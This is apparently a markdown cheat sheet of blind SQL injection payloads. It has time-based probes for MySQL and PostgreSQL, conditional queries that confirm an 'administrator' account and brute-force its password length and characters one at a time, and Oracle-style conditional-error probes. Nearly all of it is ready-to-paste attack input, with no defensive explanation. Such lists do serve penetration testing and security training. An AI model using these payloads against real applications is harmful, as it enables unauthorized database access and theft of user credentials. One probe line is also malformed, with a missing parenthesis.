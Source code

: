 ### 1. First Check

- **MySQL**

    ```html
    ' AND sleep(5)-- -
    ```

- **PostgreSQL**

    ```html
    '||pg_sleep(10)--
    '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
    '; SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
    ```

### 2. Check if Content Value Exists

```txt
'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

If so, determine the password length

```txt
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)=8) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Brute force password character

```txt
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,2,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,8,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

<br />

## Conditional Error

### 1. First Check

```txt
'
''
'||(SELECT '')||'
'||(SELECT '' FROM dual)||'
'||(SELECT '' FROM fake_table)||'
'||(SELECT '' FROM users WHERE ROWNUM = 1||'
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
